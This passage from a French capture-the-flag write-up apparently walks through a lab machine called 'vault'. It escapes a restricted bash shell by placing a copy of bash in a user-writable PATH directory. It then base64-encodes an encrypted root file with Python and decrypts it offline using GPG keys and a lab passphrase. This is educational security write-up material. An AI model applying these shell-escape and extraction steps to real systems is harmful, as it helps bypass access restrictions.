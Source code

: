 Ainsi on a beau voir la présence d'un fichier *root.txt.gpg*, la plupart des commandes pour obtenir son contenu sont bloquées, même en essayant de tricher un peu :  

```plain
dave@vault:~$ hexdump -C root.txt.gpg
hexdump -C root.txt.gpg
-rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names

dave@vault:~$ /bin/bash
/bin/bash
-rbash: /bin/bash: restricted: cannot specify `/' in command names

dave@vault:~$ export PATH=.:$PATH
export PATH=.:$PATH
-rbash: PATH: readonly variable
```

En regardant les variables d'environnement on voit qu'une partie du PATH est sous notre contrôle :  

```plain
PATH=/home/dave/bin:/home/dave/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Il suffit alors de créer le dossier *bin* et y copier *bash* pour échapper aux restrictions :  

```plain
dave@vault:~$ mkdir bin
dave@vault:~$ cp /bin/bash bin/
dave@vault:~$ bash
```

Il existe un tas d'astuces pour échapper d'un rbash qui sont listées dans le document [Escape from SHELLcatraz](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells).  

Maintenant puisque l'utilitaire *base64* n'est pas présent et que je n'ai pas envie d'ouvrir une nouvelle connexion j'ai recours à python pour obtenir le contenu du fichier :  

```plain
dave@vault:~$ /usr/bin/python3.5m
Python 3.5.2 (default, Nov 23 2017, 16:37:01)
[GCC 5.4.0 20160609] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import base64
>>> print(base64.b64encode(open("root.txt.gpg", "rb").read()))
b'hQIMA8d4xhDR6x8 --- snip ---KpzBfdERq0MGYij98='
```

Pour déchiffrer le fichier récupéré il faut utiliser les clés GPG (et la passphrase *itscominghome*) qui étaient présentes sur la première machine (*ubuntu*). J'ai tout copié sur ma machine pour le faire :  

```plain
$ gpg --decrypt root.txt.gpg
gpg: chiffré avec une clef RSA de 4096 bits, identifiant C778C610D1EB1F03, créée le 2018-07-24
      « david <dave@david.com> »
ca4683 -- snip -- fe819
```
